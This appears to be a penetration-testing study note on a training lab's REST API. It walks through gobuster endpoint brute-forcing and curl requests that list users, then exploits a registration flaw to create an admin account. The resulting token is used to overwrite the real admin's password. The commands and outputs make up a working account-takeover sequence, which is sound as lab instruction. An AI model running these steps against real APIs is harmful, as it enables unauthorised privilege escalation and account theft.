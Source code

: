 
In many cases, our penetration test target is an internally-built, closed-source web application that is shipped with a number of _Application Programming Interfaces_ (API).
These APIs are responsible for interacting with the back-end logic and providing a solid backbone of functions to the web application.

\*REST - _Representational State Transfer_
	Specific type of API used for authentication and a variety of other purposes.


- API paths are often followed by a version number:
	```html
	/api_name/v1
	```
- API names are quite descriptive about the feature or data it uses to operate
- Navigating to /ui can show the API's documentation
- Can use GoBuster to brute force API endpoints using a fuzzing pattern:
```bash
cat > pattern
	{GOBUSTER}/V1
	{GOBUSTER}/V2
	#Ctrl D
```
	In this example, we are using the "{GOBUSTER}" placeholder to match any word from our wordlist, which will be appended with the version number.

Then brute force
```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://192.168.50.16:5001
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
	[+] Patterns:                pattern (1 entries)
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/04/06 04:19:46 Starting gobuster in directory enumeration mode
	===============================================================
	/books/v1             (Status: 200) [Size: 235]
	/console              (Status: 200) [Size: 1985]
	/ui                   (Status: 308) [Size: 265] [--> http://192.168.50.16:5001/ui/]
	/users/v1             (Status: 200) [Size: 241]           <--- note
```
	2 interesting entries:  /books/v1 and users/v1.

Can use [curl](OS%20Commands.md#curl) to inspect
```bash
curl -i http://192.168.50.16:5002/users/v1
	HTTP/1.0 200 OK
	Content-Type: application/json
	Content-Length: 241
	Server: Werkzeug/1.0.1 Python/3.7.13
	Date: Wed, 06 Apr 2022 09:27:50 GMT
	
	{
	  "users": [
	    {
	      "email": "mail1@mail.com",
	      "username": "name1"
	    },
	    {
	      "email": "mail2@mail.com",
	      "username": "name2"
	    },
	    {
	      "email": "admin@mail.com",
	      "username": "admin"            <--- note
	    }
	  ]
	}
 ```

Can then use a smaller wordlist to brute force the admin user:
```bash
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
	...
	===============================================================
	2022/04/06 06:40:12 Starting gobuster in directory enumeration mode
	===============================================================
	/email                (Status: 405) [Size: 142]
	/password             (Status: 405) [Size: 142]    <--- note
```

Again using curl:
```bash
curl -i http://192.168.50.16:5002/users/v1/admin/password
	HTTP/1.0 405 METHOD NOT ALLOWED
	Content-Type: application/problem+json
	Content-Length: 142
	Server: Werkzeug/1.0.1 Python/3.7.13
	Date: Wed, 06 Apr 2022 10:58:51 GMT
	
	{
	  "detail": "The method is not allowed for the requested URL.",
	  "status": 405,
	  "title": "Method Not Allowed",      <--- note
	  "type": "about:blank"
	}
```
	Notice the 405 NOT ALLOWED response.  Likely, curl's default GET needs to be changed to a POST or PUT


IF this specific API permits POST and/ or PUT methods, we could override the user creds (in this case, admin's pw).
First, verify whether or not the overwritten creds are accepted...

Check if the *login* method is supported by extending the base URL:
```bash
curl -i http://192.168.50.16:5002/users/v1/login
	HTTP/1.0 404 NOT FOUND
	Content-Type: application/json
	Content-Length: 48
	Server: Werkzeug/1.0.1 Python/3.7.13
	Date: Wed, 06 Apr 2022 12:04:30 GMT
	
	{ "status": "fail", "message": "User not found"}    <--- note
```
	Notice how the 404 refers to the User not being found.


So, the status message is, ultimately, a clear sign that the API itself exists (& likely the login as well)
Need to find a proper way to interact with it.

Can attempt a login with the 'admin' username and a dummy password to test whether our strategy makes sense.
- Convert the GET request into a POST
- Provide payload in the required JSON format (via **-d** data switch)
- Specify "json" as the "Content-Type" (via **-H** header switch)
```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	{ "status": "fail", "message": "Password is not correct for the given username."}
```

This specific authentication failure error means the API parameters are wrong, but correctly formed.
As we don't know the admin's password, we can try to see if **registering** a new user would work instead
- Provides a different attack surface.
```bash
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

	{ "status": "fail", "message": "'email' is a required property"}
```

Status message shows that:
- API has a Register method we can interact with
- Our parameters are correctly formed though lacking an 'email' property
- We can potentially determine if there's also an 'admin' property we can abuse.

Let's add an 'admin' key attached to a 'True' value to see if we can now grant our new user admin rights as well:
```bash
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

	{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
```


Status message doesn't error out and tells us we're successful in registering a new user with admin rights.
Now, let's attempt to login with our new creds using the 'login' API we discovered working earlier:
```bash
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
```

Success
- Not only were we able to correctly login, we also retrieved a JWT auth token!
- We should use this token to change the admin user's password
	- Force a POST request that targets that password API discovered earlier
```bash
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

	{
	  "detail": "The method is not allowed for the requested URL.",
	  "status": 405,
	  "title": "Method Not Allowed",
	  "type": "about:blank"
	}
```


Again, another 405 Method Not Allowed.
Try PUT (used to replace a value rather than create one) instead:
```bash
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```


No error message mentioned, so assume no error's been thrown.
Test by logging in as 'admin' with the newly-changed pw:
```bash
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

	{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
```

Proof of logical privilege escalation bug present in the registration API.
- Happens.  Often due to lack of testing and secure coding best practices.


## BurpSuite

Examples of testing using Burp's [Repeater tool](Tools.md#Repeater%20tool)
![](burp_apiex.png)